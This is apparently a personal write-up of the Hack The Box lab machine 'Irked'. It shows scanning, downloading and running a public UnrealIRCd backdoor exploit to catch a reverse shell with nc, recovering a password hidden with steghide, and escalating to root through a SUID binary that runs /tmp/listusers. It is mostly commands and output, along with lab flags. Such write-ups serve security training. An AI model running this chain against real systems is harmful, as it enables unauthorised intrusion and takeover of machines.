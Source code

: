 ```yaml
---
layout: post
title: Irked
tags: [OSCP, Writeup, Linux, Outdated Software, Binary Exploit, Web]
description: "Irked write-up"
---
```


![Irked logo](/assets/imgs/irked/irked.png)

### This is an easy linux box

## Tools used

------

- cat
- chmod
- echo
- nc
- nmap
- python
- steghide
- su
- suid3num
- wget
- xchat


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA irked 10.10.10.117 -v

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37161/tcp6  status
|   100024  1          51203/udp   status
|   100024  1          53516/tcp   status
|_  100024  1          56835/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 22 (SSH) - OpenSSH 6.7p1
- port 80 (HTTP) - Apache 2.4.10
- port 111 (RPC)  - rpcbind 2-4

Running a full scan show me more ports :

```
nmap -sC -sV -oA irked.full 10.10.10.117 -v -p-
PORT      STATE SERVICE VERSION
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
53516/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
```

I found more open port which are about irc. Let's first see the website :

![Website](/assets/imgs/irked/webpage.PNG)

There is a big image and a string saying "IRC is almost working!". Let's connect to the IRC :

```
xchat --url irc://10.10.10.117:6697/
```

![Irc connected](/assets/imgs/irked/irc_connected.PNG)

One connected I see the version installed : Unreal 3.2.8.1, but nothing else interesting. Now that I have the version I'll check if there is known exploit :

![Searchsploit unrealIRC](/assets/imgs/irked/searchsploit_irc.PNG)

There is a backdoor command execution, but it's metasploit. Searching on Google about that, I found this repository : [https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor). 

## Exploit

------

Download the exploit code :

```
wget https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/master/exploit.py
```

Start a nc listener :

```
nc -lvp 1234
```

Launch the exploit :

```
python3 exploit.py -payload python 10.10.10.117 6697
Exploit sent successfully!
```

Then go see the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.4] from irked.htb [10.10.10.117] 57920
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
```

Nice, I now have a reverse shell as the user ircd ! Looking around for privilege escalation, I found this file :

```
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

Since I have done a few CTF, I know when there is steg involve, there must be an image or something. I recall that on the website there was a big image, so I download it :

```
wget http://10.10.10.117/irked.jpg
```

Then using this tool (steghide), which is a tool that I often used in CTF, I tried to extract something using the password that I found :

```
steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".
```

It works and extracted a file called "pass.txt"

```
cat pass.txt
Kab6h+m+bbp2J:HG
```

I now have another password. Let's try it as djmardov :

```
ircd@irked:/home/djmardov/Documents$ su djmardov
Password: 
djmardov@irked:~/Documents$ whoami
djmardov
```

Nice, I now have djmardov rights ! Once again let's try to escalate, this time to root. For that I tried a new script that I found called [suid3num](https://github.com/Anon-Exploiter/SUID3NUM), transfert it to the box :

```
python -m simpleHTTPServer
```

```
wget http://10.10.14.4:8000/suid3enum.py
```

Run it :

```
djmardov@irked:~/Documents$ suid3num.py
[...]

[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/bin/procmail                                                                                  
/usr/bin/X                                                                                  
/usr/bin/viewuser                                                           
------------------------------  

[...]
```

The interesting stuff was what I looked at. And the viewuser binary, I didn't know it, let's check it :

```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-08-04 03:12 (:0)
sh: 1: /tmp/listusers: not found
```

I can run it, that a good sign. It's looking for a file named listusers in /tmp, so create it :

```
djmardov@irked:/tmp$ echo "/bin/bash" > listusers
djmardov@irked:/tmp$ chmod 777 listusers
```

Re-run it :

```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-08-04 03:12 (:0)
root@irked:/tmp# whoami
root
```

And I'm root ! I can now read flags.

## Flags

------

### User.txt

```
djmardov@irked:~/Documents$ cat user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
```

### Root.txt

```
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```